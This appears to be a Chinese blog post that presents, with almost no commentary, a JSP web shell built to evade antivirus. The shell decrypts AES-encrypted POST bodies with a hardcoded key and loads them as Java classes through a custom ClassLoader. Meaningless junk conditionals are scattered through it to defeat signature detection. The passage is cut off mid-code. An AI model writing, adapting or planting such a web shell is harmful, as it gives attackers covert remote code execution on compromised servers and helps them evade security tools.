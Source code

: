 废话不多说了，直接上代码和免杀效果截图

```jsp
&lt;%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %&gt;
&lt;%@ page import="java.io.BufferedReader" %&gt;
&lt;%@ page import="java.security.InvalidKeyException" %&gt;
&lt;%!
    class UUAND extends ClassLoader {
        String AA = "AAAAAAA";
        String BB = "BBBBBBB";
        String CC = "CCCCCCC";
        UUAND(ClassLoader c) {
            super(c);
            if (1929341894&gt; 12313){
                boolean b = 18288 % 10 == 2;
            }
        }
        public Class g(byte[] b) {
            if (2 &gt; 100){
                String aa = "AAAAAAA";
                int s = 1929341894 - 12313;
                aa = aa + s;
            }else {
                String cc = "ccccccc";
            }
            return super.defineClass(b, 0, b.length);
        }

    }
%&gt;

&lt;%
    if (request.getMethod().equals("POST")) {
        String ACAW = "";
        if (1721747 &lt; 17177755){
            ACAW = "e45e"+"329" +""+ "feb5"+"d925b";
        }
        int i = 0;
        do{
            session.putValue("u", ACAW);
        }while (i &lt; 0);
        Cipher c = null;
        if (0 &lt; 188819091){
            c = Cipher.getInstance("AES");
        }
        if (17471741 == 17471741){
            go(c, ACAW);
        }
        if (true){
            if ((74721741 &gt;&gt; 11) != 1 ){
                float f1 = 31.4145f;
            }

            ClassLoader CL = getClassLoader();
            UUAND u = new UUAND(CL);
            if ((74721741 &gt;&gt; 11) != 1 ){
                float f1 = 31.4145f;
            }
            BufferedReader reader = request.getReader();
            if ((74721741 &gt;&gt; 11) != 1 ){
                float f1 = 31.4145f;
            }

            String readLine;
```